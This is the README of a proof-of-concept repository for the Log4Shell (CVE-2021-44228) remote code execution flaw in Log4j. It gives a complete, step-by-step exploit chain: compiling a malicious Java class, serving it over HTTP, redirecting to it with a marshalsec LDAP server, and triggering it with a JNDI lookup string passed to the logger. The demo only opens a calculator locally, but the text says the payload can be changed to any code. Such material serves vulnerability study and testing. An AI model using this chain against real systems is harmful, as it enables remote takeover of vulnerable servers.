


# CVE-2021-44228-Log4Shell-POC
### Complete POC for Infamous Log4j CVE-2021-44228

#### Prerequisites
- Download and Install Java from [here](http://mirrors.rootpei.com/jdk/), you can use jdk-8u181.
- Install IntelliJ Idea from [here](https://www.jetbrains.com/idea/)

#### POC

- Step 1 : Clone this repository.
- Step 2 : Move `Exploit.java` file to a different folder. Like in my case I've created a folder `rce` inside home directory. `/home/coldfusionx/rce`

- Step 3 : Peeking at `Exploit.java`
Here you can change the remote code to anything, in this case this would pop up `gnome-calculator` on a ubuntu machine.

- Step 3 : Next we need to compile `Exploit.java` using command `javac Exploit.java`, once successfully compiled we should see a new file `Exploit.class` gets created.

- Step 4 : Start a python http server to host `Exploit.class` using `python3 -m http.server 8888`, alternatively you can also use a php server using command `php -S 127.0.0.1:8888`.

- Step 5 : Load the project files into IntelliJ Idea and let maven complete the file indexing.
Once completed your project should look like this :

- Step 6 : For running the project, we need to create a configuration, click on `Add Configuration` 

1. Select `Application`

2. Select the JDK and apply.

3. You should see Log4j Applicaton created, ready to run.

- Step 7 : Next we start the LDAPRefServer using `marshalsec`
1. `cd marshasec`
2. Run `java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"` to start the LDAP server, here `127.0.0.1:8888` is the python server hosting `Exploit.class` hence we specify `/#Exploit`

- Step 8 : Edit the JNDI payload in log4j.java as per your requirement, `logger.error("${jndi:ldap://127.0.0.1:1389/Exploit}");`
In this case we are loading the remote class `Exploit`, the LDAP referrer server will redirect the request to our python server hosting the malicious `Exploit` class.

- Step 9 : Run `Log4j`, On successful run you should see a gnome calculator pop up.

### Check out my detailed analysis on [Log4Shell CVE-2021-44228](https://blog.qualys.com/vulnerabilities-threat-research/2021/12/15/is-your-web-application-exploitable-by-log4shell-cve-2021-44228-vulnerability)

#### Reference
- https://nvd.nist.gov/vuln/detail/CVE-2021-44228

